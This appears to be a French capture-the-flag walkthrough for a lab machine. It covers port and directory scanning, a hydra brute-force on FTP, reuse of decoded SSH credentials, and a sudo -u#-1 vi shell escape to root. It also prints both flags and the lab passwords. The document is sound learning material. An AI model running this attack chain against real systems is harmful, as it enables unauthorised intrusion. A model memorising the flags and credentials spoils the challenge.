# Musa Troglodytarum 🔳🔳

## Récupération du `user.txt`

**N'oubliez pas de changer _target_ par l'ip de la machine cible !**

> EPI{l3_7R0nC_3S7_3N_R34Li73_un_PS3ud0_7r0NC_InCR0ya8Le}

- Tout d'abord, nous effectuons une analyse réseau à l'aide de `nmap` pour identifier les ports ouverts et les services exécutés sur la machine cible. Ensuite, nous utilisons `gobuster` pour découvrir les répertoires cachés sur le serveur web.

```bash
nmap -sV -sC <target>
```

_- `-sV` : détecte la version des services en cours d'exécution sur les ports ouverts._

_- `-sC` : exécute des scripts de détection par défaut pour obtenir plus d'informations sur les services._

- Résultat :


Le scan révèle que les ports suivants sont ouverts :

- **`21/tcp (FTP)`** : vsftpd 3.0.2
- **`22/tcp (SSH)`** : OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
- **`80/tcp (HTTP)`** : Apache httpd 2.4.10 (Debian)

- Après avoir identifié les services actifs sur la machine cible, nous utilisons `gobuster` pour découvrir les répertoires cachés sur le serveur web.

```bash
gobuster dir -w <chemin_de_la_wordlist> -u <target>
```

_- `dir` : mode de `gobuster` pour découvrir des répertoires._

_- `-w <chemin_de_la_wordlist>` : spécifie le chemin vers la liste de mots utilisée pour tester les noms de répertoires._

_- `-u <target>` : URL de la cible._

- Résultat :



Le scan découvre plusieurs répertoires et fichiers :

- `**/assets**` : statut 301 (Redirection)
- `**/index.html**` : statut 200 (OK)

Les répertoires protégés ou inaccessibles renvoient un statut 403 (Interdit).

### Analyse des fichiers du serveur web

- Après avoir découvert les répertoires cachés, nous explorons le répertoire `/assets` qui contient des fichiers intéressants.

```url
http://<target>/assets/
```



Le répertoire `/assets` contient les fichiers suivants :

- **MusaTroglodytarum.mp4** : une vidéo de 50 Mo.
- **style.css** : un fichier CSS de 2.9 Ko.

Nous téléchargeons et examinons le fichier `style.css` pour trouver des indices supplémentaires. Après avoir trouvé un indice dans le fichier `style.css`, nous accédons à la page PHP mentionnée.

```url
http://<target>/l3_B4n4N13r_D3s_M0nT4gN3s.php
```



- Nous analysons la page PHP et trouvons un fichier vidéo avec un indice supplémentaire.

- Résultat :


Nous suivons les redirections pour accéder à la page finale.

En utilisant les outils de développement, nous examinons la vidéo et trouvons le flag caché.
Le flag découvert est : `sup3r_s3cr3t_fl4g`.
La vidéo et le `sup3r_s3cr3t_fl4g` ne contiennent rien. Nous devons continuer à explorer.
Pour récupérer le flag, nous utilisons `curl` ou `wget` pour télécharger le fichier `l3_B4n4N13r_D3s_M0nT4gN3s.php`.

```bash
curl <target>/l3_B4n4N13r_D3s_M0nT4gN3s.php -s
wget <target>/l3_B4n4N13r_D3s_M0nT4gN3s.php
```



- Nous avons découvert un répertoire caché sur le serveur web contenant une image potentiellement intéressante.



```bash
http://<target>/L3s_Fru1ts_s0nt_c0NNus_Gen3raL3m3nt_s0Us_l3_N0m_D3_B4N4n3/
```

Le répertoire caché contient une image nommée `Hot_Babe.png`.



- Nous téléchargeons l'image `Hot_Babe.png` et l'examinons pour trouver un indice supplémentaire.

```bash
wget http://<target>/L3s_Fru1ts_s0nt_c0NNus_Gen3raL3m3nt_s0Us_l3_N0m_D3_B4N4n3/Hot_Babe.png
```

Nous avons trouvé un fichier texte contenant le nom d'utilisateur FTP et une liste de mots de passe potentiels. Nous utilisons cette liste pour effectuer une attaque de brute-force.

- Le fichier texte révèle que le nom d'utilisateur FTP est `banane_celeste`.


Pour cette attaque brute-force, nous utilisons `hydra` pour tester les mots de passe de la liste sur le service FTP.

```bash
hydra -l <ftpuser> -P <la_liste_de_mot_de_passe.txt> ftp://<target> -vv
```

L'attaque de brute-force trouve avec succès le mot de passe pour l'utilisateur banane_celeste.

- Nom d'utilisateur : `banane_celeste`
- Mot de passe : `4nndoLjgyBEOFSlDivNC`



- Nous nous connectons au serveur FTP à l'aide des informations d'identification découvertes.

```bash
ftp <target>
```


- Après avoir téléchargé le fichier 2022 Valerian's_Creds.txt du serveur FTP, nous l'examinons pour trouver des informations ou des indices supplémentaires.

```bash
get Valerian's Creds.txt
```

```bash
cat Valerian\'s_Creds.txt
```


- Après avoir découvert que le fichier 2022 Valerian's_Creds.txt ne contenait pas d'informations en texte clair, nous essayons de le décoder en utilisant un outil en ligne. Nous avons utilisé l'outil DCode pour décoder le fichier en utilisant le langage Whitespace.

**Étapes :**

- Accédez à DCode - Whitespace Language.
- Importez le fichier **`Valerian's_Creds.txt`**.
- Cliquez sur **`"Decrypt"`** pour décoder le contenu du fichier.

Le fichier décodé révèle les informations suivantes :

- User : `valerian`
- Password : `T4k_t4k_S0lide_Dyn0_int0_Cr1mP`



- Nous utilisons les informations d'identification découvertes pour nous connecter au serveur SSH.

```bash
ssh valerian@<target>
```



Après avoir utilisé les identifiants décodés pour se connecter à un compte, nous trouvons un message de l'utilisateur root à Gabriel mentionnant un fichier caché nommé s3cr3t.


1. Lister tous les fichiers, y compris les fichiers cachés :

   ```bash
   ls -a
   ```

2. Utiliser la commande locate pour trouver le fichier ou répertoire caché nommé s3cr3t :

   ```bash
   locate s3cr3t
   ```

3. Accéder au répertoire ou fichier trouvé et lire son contenu :

   ```bash
   cd /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_g4br13l_0nly!
   cat /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_g4br13l_0nly!
   ```

- resultat:

```bash
Your password is awful, Gabriel.
It should be at least 60 characters long! Not just ca_serait_jamais_arrive_en_haskell
```

Le message indique que le mot de passe de Gabriel est faible et fournit un exemple de mot de passe plus long.
Cela suggère que des pratiques de sécurité plus strictes sont nécessaires.

- Après avoir obtenu les identifiants de Gabriel, nous nous connectons à son compte pour vérifier s'il y a des fichiers intéressants.

```bash
su gabriel
```

- Naviguer dans le répertoire personnel de Gabriel et vérifier les fichiers présents :

```bash
cd /home/gabriel/
ls
```

- Le répertoire contient un fichier nommé user.txt. Nous lisons le contenu du fichier pour obtenir le flag.

```bash
cat user.txt
```



## Récupération du `root.txt`

> EPI{L4_t193_Fl0R1F3R3_D35_m0nt49N35_DR35533}

Pour acceder au compte root, nous devons trouver les privilèges de sudo de l'utilisateur Gabriel.

```bash
sudo -l
```



Gabriel peut exécuter la commande /usr/bin/vi en tant que root sans mot de passe
Allons faire un tour sur le site hacktricks.xyz pour voir comment exploiter cette faille.


```bash
sudo -u#-1 /usr/bin/vi /home/gabriel/user.txt
```

- Appuyez sur `:` pour accéder au mode commande.

- Tapez `:!/bin/sh` pour exécuter un shell.

- Appuyez sur `Enter` pour exécuter la commande.

- Vous avez maintenant un shell root.


